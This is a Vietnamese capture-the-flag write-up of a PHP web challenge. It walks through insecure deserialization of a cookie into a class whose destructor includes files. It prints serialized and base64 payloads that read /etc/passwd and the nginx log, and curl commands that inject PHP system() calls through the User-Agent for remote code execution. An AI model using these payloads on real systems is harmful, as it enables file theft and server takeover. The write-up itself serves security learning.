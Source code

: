 # CHALLENGE DESCRIPTION

Humanity has exploited our allies, the dart frogs, for far too long, take back the freedom of our lovely poisonous friends. Malicious input is out of the question when dart frogs meet industrialisation. 🐸

**Tags:** `PHP`, `source-code-analysis`, `insecure-deserialization`, `log-poisioning`

# Quick Preview

Đây là một bài White Box, chúng ta được cung cấp source code của Web App.

Sau khi giải nén folder `Toxic.zip`, ta được folder có cấu trúc như sau: 

```shell
Toxic
└── web_toxic
    ├── challenge
	│   ├── models
	│	│   └── PageModel.php
	│   ├── static
	│   │   ├── basement
	│   │   ├── css
	│   │   ├── images
	│   │   └── js
	│   ├── index.html
    │   └── index.php
    ├── config
	│   ├── fpm.conf
	│   ├── nginx.conf
	│   └── supervisord.conf
	├── build-docker.sh
	├── Dockerfile
	├── entrypoint.sh
	└── flag
```

→ Ta có cái nhìn sơ lược về Web App: 
+ Web Tech: `PHP`
+ Server: `nginx` 

Đây là giao diện của trang web

![](../../attachments/Pasted%20image%2020220727042358.png)

→ Mình chưa tìm thấy tính năng gì của trang web cả. → Đọc source code thôi!

# Source Code Analysis
Khi mình đọc được code của file `index.php`, mình biết được sự tồn tại của cookie cũng như cách hình thành nên nó.

App sẽ tạo giá trị của cookie bằng cách thực hiện quá trình `serialize` biến `$page`, sau đó encode bằng thuật toán base64. Đồng thời cũng gán thời gian tồn tại của `cookie` là 86400 giây.

```php
<?php

spl_autoload_register(function ($name){
    if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
});

if (empty($_COOKIE['PHPSESSID']))
{
    $page = new PageModel;
    $page->file = '/www/index.html';

    setcookie(
        'PHPSESSID',
        base64_encode(serialize($page)),
        time()+60*60*24,
        '/'
    );
}

$cookie = base64_decode($_COOKIE['PHPSESSID']);

unserialize($cookie);
```

Nhìn kĩ lại biến `$page` là một `object PageModel`, vậy PageModel này là gì ? Tiếp tục nhìn source code, mình phát hiện file `PageModel.php` nằm trong folder `Toxic\web_toxic\challenge\models\` có nội dung như sau:

```php
<?php
class PageModel
{
    public $file;

    public function __destruct()
    {
        include($this->file);
    }
}
```

→ PageModel là một object có 1 property là `$file` và một magic method là `__destruct()` (method này sẽ tự động được gọi khi  1 object PageModel không được sử dụng nữa, cụ thể [here](https://www.php.net/manual/en/language.oop5.decon.php#object.destruct))

Ở đây, app đã bị lỗi `Insecure deserialization`.  Bởi những chuỗi các yếu tố liên kết sau:

+ `Untrusted Data` ( `$_COOKIE['PHPSESSID']` ) rơi vào quá trình `Deserialize`
+ Một `object` có `magic method` thực thi một `sink` nguy hiểm ( `include()` )

# Exploit

Quá trình exploit khá đơn giản (khi chưa bị Object Injection cũng như Gadget Chains).

Đầu tiên, mình sẽ xem hình dạng của cookie trước và sau khi decode base64 như thế nào. Và trông mặt mũi một object khi được seriallize.

![](../../attachments/Pasted%20image%2020220727051536.png)

Sau khi decode base64, cookie của ta có giá trị như sau:

![](../../attachments/Pasted%20image%2020220727051637.png)

Bắt đầu exploit bằng một payload đơn giản, mục đích của payload này là đọc được file /etc/passwd. Và mình sẽ thử modify cookie lại cho đúng syntax của một object sau khi seriallize như sau:

```
O:9:"PageModel":1:{s:4:"file";s:11:"/etc/passwd";}
```

> Để đảm bảo đúng cấu trúc syntax của một object khi seriallize thì có thể tham khảo thêm [here](https://www.php.net/manual/en/function.serialize.php). 

Tiếp theo thực hiện encode base64 lại object.

```shell
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToiL2V0Yy9wYXNzd2QiO30=
```

Quăng vào cookie của trang web và xem kết quả:

![](../../attachments/Pasted%20image%2020220727052012.png)

→ Ngon. Hoàn toàn đọc được file /etc/passwd của server.

## Log Poisoning

Cũng tương tự, mình sẽ tạo ra 1 payload để có thể đọc được `file log` của server. Để biết file này nằm đâu ta có thể xem cho file `Docker` của src.

```
O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}
```

```shell
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ==
```

Tiếp theo mình sẽ thực hiện gửi một cú request với User-Agent như dưới:

```console
kali@kali:~$ curl -I http://46.101.2.216:30602/ -A "<?php echo 1+1;?>"
HTTP/1.1 200 OK
<--SNIP-->
```

Đây là kết quả

![](../../attachments/Pasted%20image%2020220727053231.png)

Payload đơn giản hoạt động tốt, tiếp đến ta sẽ thực hiện list ra xem thư mục root có những gì

```
kali@kali:~$ curl -I http://46.101.2.216:30602/ -A  "<?php system('ls /');?>"
HTTP/1.1 200 OK
Server: nginx
Date: Tue, 26 Jul 2022 22:06:08 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
X-Powered-By: PHP/7.4.15
Set-Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9; expires=Wed, 27-Jul-2022 22:06:08 GMT; Max-Age=86400; path=/
```

Kết quả:

![](../../attachments/Pasted%20image%2020220727053501.png)

## Get Flag 

Tiến hành đọc FLAG thôi

```
kali@kali:~$ curl -I http://46.101.2.216:30602/ -A  "<?php system('cat /flag_Wqi4U');?>"
HTTP/1.1 200 OK
Server: nginx
Date: Tue, 26 Jul 2022 22:06:26 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
X-Powered-By: PHP/7.4.15
Set-Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9; expires=Wed, 27-Jul-2022 22:06:26 GMT; Max-Age=86400; path=/
```

![](../../attachments/Pasted%20image%2020220727053924.png)


